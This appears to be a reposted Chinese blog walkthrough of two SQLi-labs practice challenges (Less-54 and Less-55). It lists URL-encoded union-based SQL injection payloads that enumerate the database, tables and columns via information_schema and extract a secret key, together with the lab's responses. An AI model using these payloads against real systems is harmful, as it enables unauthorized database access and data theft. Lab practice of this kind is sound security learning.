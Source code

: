 
> 环境坏掉了...
转载博客源地址：
[文章源地址这里](https://blog.csdn.net/wang_624/article/details/101913584)
# less 54(GET-challenge-Union-10 queries allowed-Variation 1)
## 原理
只允许10次注入，这一关是普通的单引号注入

## 步骤
测试显示位

`?id=1%27%20order%20by%203%20%23 // True`

`?id=1%27%20order%20by%204%20%23 // false`

获取库名

`?id=0%27%20union%20select%201,2,database()%20%23 // True challenges`

获取表名

`?id=0%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20%23 // True 8T3YRE3TXR`

获取列名
`?id=0%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%278T3YRE3TXR%27%20%23// true secret_4XCQ`

获取key
`?id=0%27%20union%20select%201,2,group_concat(secret_4XCQ)%20from%208T3YRE3TXR%20%23 // True aefBbyoeStF7Edc3FZa4G5C4`
***
# less 55(GET-challenge-Union-14 queries allowed-Variation 2)
## 原理
14次注入，利用union

## 步骤

) 闭合
获取表

`=0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' %23 // True UBU4QNRHHP`

获取列

`id=0) union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='UBU4QNRHHP' %23 //true// secret_6H3B`
